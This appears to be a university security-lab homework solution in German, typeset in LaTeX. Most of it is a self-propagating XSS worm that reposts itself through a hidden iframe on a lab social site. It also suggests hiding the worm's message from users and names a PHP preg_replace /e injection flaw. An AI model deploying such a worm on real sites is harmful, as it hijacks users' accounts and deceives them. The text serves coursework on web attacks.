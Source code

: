 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[caption=Berndbookworm, label=berndbookworm]
CHello my freend!
<img src="https://alcapwn.de/logo.png" />
<iframe src="http://berndbook.seclab.uni-paderborn.de/send.php" name="send_in_a_box" style="visibility:hidden;" width="0" height="0"></iframe>

<script type="text/javascript" src="http://code.jquery.com/jquery-1.10.2.min.js">
</script>

<script type="text/javascript">

function reproduction(n){
	if (n >0){
		reproduction_function = reproduction.toString();
		iframe_string = "CHello my freend!<img src=\"https://alcapwn.de/logo.png\"\/><iframe src=\"http://berndbook.seclab.uni-paderborn.de/send.php\" name=\"send_in_a_box\" style=\"visibility:hidden;\" width=\"0\" height=\"0\"></iframe>";
		jquery_string = "<script type=\"text/javascript\" src=\"http://code.jquery.com/jquery-1.10.2.min.js\"><\/script>";
		script_start = "<script type=\"text/javascript\">";
		function_call = "$('body').attr('onload','reproduction(" + (n-1) + ");');"
		script_end = "<\/script>";
		msg = iframe_string + jquery_string + script_start + reproduction_function + function_call + script_end;
		$('iframe').contents().find('textarea').val(msg);
		$('iframe').contents().find('input[type=checkbox]').click();
		$("iframe").contents().find("input[type=submit]").click()
	}
}

$('body').attr('onload','reproduction(2);');
</script>
\end{lstlisting}

\subsection*{b)}
Eine Möglichkeit die Ausbreitungsgeschwindigkeit zu reduzieren wäre die Nachricht beim sehen nur mit einer gewissen Wahrscheinlichkeit weiterzusenden. Über diese Wahrscheinlichkeit lässt sich dann die Geschwindigkeit regulieren. Um sicherzustellen, dass jeder User die Nachricht auch bekommt/weiterschickt, muss man dafür sorgen, dass der User die Nachricht nicht löscht bevor sie weitergeschickt wurde. Dies kann man erreichen, indem man die Nachricht vor dem User versteckt. Dafür könnte man per JavaScript die Website so anpassen, dass die Nachricht nicht angezeigt wird bis sie weitergeschickt wurde.

\section*{Aufgabe 3}

Der Leetspeakgenerator enthält eine Sicherheitslücke in der 1337.php. Die verwendete Funktion preg\_replace, die in Zeile 16 mit dem Modifikator "`\textit{e}"' aufgerufen wird, kann dazu ausgenutzt werden. Damit wir einfacher auf 1337.php Datei zugreifen konnten, benutzten wir einen RESTClient und bauten die Anfrage an die 1337.php nach. 
\end{document}
